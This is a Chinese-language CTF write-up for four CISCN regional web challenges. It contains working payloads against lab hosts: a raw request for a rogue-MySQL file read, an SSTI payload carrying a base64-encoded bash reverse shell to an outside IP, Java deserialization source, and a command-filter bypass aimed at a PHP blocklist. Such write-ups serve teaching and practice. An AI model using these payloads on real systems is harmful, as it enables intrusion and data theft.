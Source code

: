 # CISCN西南赛区 WebWriteUp

  
  
&lt;!--more--&gt;  
## weblog  
`/article.php?id=1`存在`sql`注入，注入数据  
找到隐藏路径，可以连接数据库，进行mysql fakeserver任意文件读取  
`/database.php`  
```http  
POST /database.php HTTP/1.1  
Host: 10.1.0.122:82  
Content-Length: 123  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
Origin: http://10.1.0.122:82  
Content-Type: application/x-www-form-urlencoded  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36  
Accept: text/html,application/xhtml&#43;xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Referer: http://10.1.0.122:82/hide/connect_fun_dbs_test_hides.php  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Connection: close  
  
jsonData={&#34;host&#34;:&#34;10.1.0.130&#34;,&#34;port&#34;:3306,&#34;username&#34;:&#34;root&#34;,&#34;password&#34;:&#34;password&#34;}  
```  
读取`flag`文件，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171009709.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171009598.png)
## ezssti  
访问`/hello`点击连接跳转`/destiny`  
直接打ssti  
```java  
%23set(%24e=%22e%22);%24e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22bash&#43;-c&#43;{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEuMC4xMTkvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}%22)  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171009744.png)
成功反弹`shell`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171010274.png)
## zwxajavaf  
`/backup.zip`下载源码  
存在反序列化  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171011712.png)
直接上传序列化的文件即可，  
利用点  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171011212.png)
payload  
```java  
package com.example.zwxajavaf1;  
  
import java.io.FileOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
  
public class JavaPayload{  
    public static void main(String[] args) throws Exception{  
        MyCustomObject myCustomObject = new MyCustomObject();  
        setFieldValue(myCustomObject,&#34;filePath&#34;,&#34;/usr/local/tomcat/webapps/admin_info.txt&#34;);  
        serialize(myCustomObject);  
    }  
    public static void serialize(Object o) throws Exception{  
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));  
        oos.writeObject(o);  
    }  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj, value);  
    }  
}  
```  
上传后得到密码  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171012916.png)
反序列化之后得到密码  
登陆后`rce`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171012248.png)
## ssrf2rce  
访问`/flag.php`  
```  
flag{th1s_is_f4ke_flag}  
  
  
  
  
But,there is something in coooooomand.php~!!  
```  
访问`coooooomand.php`  
```php  
&lt;?php  
function executeCommand($command) {  
    if (preg_match(&#39;/cat| |\\\\|\${IFS}|%09|\$[*@x]|tac|iconv|shuf|comm|bat|more|less|nl|od|sed|awk|perl|python|ruby|xxd|hexdump|string/&#39;, $command)) {  
        return &#34;Hacker!!!&#34;;  
    }  
  
    $output = shell_exec($command);  
    if ($output === null) {  
        return &#34;uhhhh&#34;;  
    }  
  
    return $output;  
}  
  
$command = isset($_GET[&#39;command&#39;]) ? $_GET[&#39;command&#39;] : &#39;&#39;;  
  
if (!empty($command)) {  
    $result = executeCommand($command);  
    echo nl2br(htmlspecialchars($result, ENT_QUOTES, &#39;UTF-8&#39;));  
} else {  
    echo highlight_file(__FILE__, true);  
}  
?&gt;  
```  
进行绕过`/coooooomand.php?command=/bin/ca?$IFS/flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202406171013698.png)
# fix？？？  
fix ctf rce 绕过 Orz  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/ciscn%E8%A5%BF%E5%8D%97%E8%B5%9B%E5%8C%BA-webwriteup/  

